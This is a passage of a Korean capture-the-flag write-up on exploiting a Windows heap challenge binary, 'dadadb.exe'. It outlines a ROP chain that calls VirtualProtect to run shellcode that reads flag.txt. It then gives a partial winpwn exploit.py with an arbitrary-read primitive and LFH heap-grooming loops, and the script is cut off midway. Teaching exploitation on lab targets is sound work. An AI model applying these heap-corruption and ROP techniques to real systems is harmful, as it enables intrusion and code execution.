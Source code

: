 - `virtualprotect`로 shellcode 주소의 실행 권한 허용 후 shellcode로 jump

- shellcode는 `flag.txt`를 읽어 stdout으로 출력

필요한 gadget은 [http://ropshell.com](http://ropshell.com/search) 에 익스 환경의 `ntdll.dll`을 업로드해 찾으면 되며`virtualprotect`, `readfile`, `writefile`, `createfile` 는 `kernel32.dll`에서 찾을 수 있습니다.

아래는 전체 `exploit.py` 입니다. 

```python
from winpwn import *
import time

def login(id,pw):
	p.recvuntil(">>")
	p.sendline("1")
	p.recvuntil("User:")
	p.sendline(id)
	p.recvuntil("Password:")
	p.sendline(pw)

def add(key, size, data):
	p.recvuntil(">>")
	p.sendline("1")
	p.recvuntil("Key:")
	p.sendline(key)
	p.recvuntil("Size:")
	p.sendline(str(size))
	p.recvuntil("Data")
	p.send(data)

def view(key):
	p.recvuntil(">>")
	p.sendline("2")
	p.recvuntil("Key:")
	p.sendline(key)

def delete(key):
	p.recvuntil(">>")
	p.sendline("3")
	p.recvuntil("Key:")
	p.sendline(key)

def readmem(key, addr):
	add("LFH4",0x60,'a'*0x70 + p64(addr))
	view(key)
	p.recvuntil("Data:")
	return u64(p.recv(8))

context.arch = "amd64"
#context.log_level = "debug"

p = process("./dadadb.exe")

login("ddaa","phdphd")

## enable LFH
for i in range(18):
	add("l0ch"+str(i),0x90,"B"*0x90)

## fill userblock
for i in range(17):
	add("LFH"+str(i),0x90,"B"*0x90)

delete("LFH5")

```